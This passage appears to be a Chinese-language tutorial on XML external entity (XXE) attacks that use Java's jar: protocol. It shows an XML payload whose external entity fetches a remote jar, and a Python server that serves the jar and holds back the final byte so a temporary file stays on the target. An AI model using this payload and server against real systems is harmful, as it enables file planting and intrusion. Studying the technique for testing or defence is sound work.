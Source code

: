 ```
                System.out.print(data);

                System.out.print("-->");
            }
        }

        System.out.print("</" + tagName + ">");
    }
}
```

有了这个源码以后，我们需要在本地建立一个 xml 文件 ，我取名为 student.xml

**student.xml**

```
<!DOCTYPE convert [ 
<!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
]>
<convert>&remote;</convert>
```

**目录结构如下图：**

![image-20231218151103729](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218151103729.png)

可以清楚地看到我的请求是向自己本地的 9999 端口发出的，那么9999 端口上有什么服务呢？实际上是我自己用 python 写的一个 TCP 服务器

**示例代码：**

**sever.py**

```
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = 'localhost' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))

                self.request.sendall(contents[:-1])
                time.sleep(30)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


```